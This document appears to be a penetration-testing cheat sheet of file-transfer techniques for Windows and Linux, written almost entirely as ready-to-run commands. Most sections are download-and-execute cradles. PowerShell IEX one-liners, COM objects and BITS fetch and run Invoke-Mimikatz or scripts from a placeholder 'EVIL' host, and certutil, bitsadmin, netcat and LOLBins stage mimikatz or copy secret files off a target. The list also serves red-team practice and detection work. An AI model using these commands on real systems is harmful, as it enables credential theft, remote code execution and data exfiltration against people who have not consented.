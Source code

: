 # Ultimate File Transfer List

## powershell.exe

### wget.ps1
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.10.10/mimikatz.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### powershell download proxy auth
```
$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)
```
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

### powershell 3.0+ download and execute (bypass IE firstrun check)
```
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)
```

### powershell (any version)
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```
```
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")
```

### hidden IE com object
```
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
```

### Msxml2.XMLHTTP COM object
```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### WinHttp COM object
```
[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### bitstransfer
```
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r
```

// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record
```
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
```


### from @subtee
```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe
```
cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"
```
References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe
```
pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
```

## certutil.exe
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d > binary.exe
```

## print.exe
```
C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe
```
References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe
```
C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab
```

## esentutl.exe
```
C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o
```

## extrac32.exe
```
C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt
```

## netcat
```
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe
```

## web browser / server
```
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```

## wget
```
wget http://10.10.10.10:80/info.txt -O /tmp/info.txt
```

## curl
```
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt
```

## rdesktop
```
rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'
```



